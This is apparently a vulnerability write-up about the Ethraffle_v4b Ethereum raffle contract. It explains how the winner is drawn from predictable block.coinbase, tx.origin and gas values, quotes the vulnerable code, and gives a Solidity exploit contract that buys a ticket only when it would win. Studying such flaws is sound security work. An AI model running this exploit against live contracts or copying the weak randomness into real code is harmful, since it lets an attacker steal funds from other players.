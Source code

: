 Ethraffle_v4b
======
https://etherscan.io/address/0x9A3dA065e1100a5613dc15b594f0F6193B419E96#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses `block coinbase` as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value, thus the attacker can always win.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket > totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        // Pseudorandom number generator
        uint remainingGas = msg.gas;
        bytes32 sha = sha3(
            block.coinbase,
            tx.origin,
            remainingGas
        );

        uint winningNumber = (uint(sha) % totalTickets) + 1;
        address winningAddress = contestants[winningNumber].addr;
        ......
    }

Details
------
After all tickets in a round(50 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all buyers. However, `block.coinbase` and `remainingGas` can be accessed before the transaction, so the result can be determined in an attack contract.

Exploit
------
    contract Exploit{
    
        Ethraffle target;
        
        uint constant totalTickets = 6;
        
        function Exploit(address _target) public payable{
            target = Ethraffle(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket;
            if(current_sold + 1 > totalTickets){
                bytes32 sha = sha3(block.coinbase, msg.sender, msg.gas);
                uint winningNumber = (uint(sha) % totalTickets) + 1;
                
                if(winningNumber == totalTickets){          //if we can win
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
